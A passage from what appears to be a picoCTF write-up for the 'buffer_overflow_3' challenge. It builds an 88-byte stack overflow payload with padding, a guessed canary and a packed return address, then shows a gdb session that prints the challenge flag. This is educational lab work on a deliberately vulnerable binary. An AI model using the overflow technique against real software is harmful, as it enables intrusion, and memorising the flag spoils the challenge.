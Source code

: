 
```
Python 3.10.8 (main, Oct 24 2022, 10:07:16) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> p32(0x08049336)
b'6\x93\x04\x08'
```

And here we have our final string with 88 length :

```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaallllraaasaaataaauaaa\x36\x93\x04\x08
```

To check if it is working, we can use an `output.txt` file and pass it to our `./vuln` prgoram in gdb or just in our terminal :

```
Python 3.10.8 (main, Oct 24 2022, 10:07:16) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> open("input.txt", 'wb').write(b'88\naaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaallllraaasaaataaauaaa\x36\x93\x04\x08')
91
>>> exit()
```

 -> gdb :

```
┌──(rivench㉿kali)-[~/Documents/picoCTF/pwn/buffer_overflow_3]
└─$ gdb vuln
GNU gdb (Debian 12.1-3) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
90 commands loaded and 5 functions added for GDB 12.1 in 0.00ms using Python engine 3.10
Reading symbols from vuln...
(No debugging symbols found in vuln)
gef➤  r < input.txt 
Starting program: /home/rivench/Documents/picoCTF/pwn/buffer_overflow_3/vuln < input.txt
[*] Failed to find objfile or not a valid file format: [Errno 2] No such file or directory: 'system-supplied DSO at 0xf7fc5000'
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
How Many Bytes will You Write Into the Buffer?
> Input> Ok... Now Where's the Flag?
picoCTF{fi_khater_smail}
[Inferior 1 (process 40574) exited normally]
gef➤  exit
```

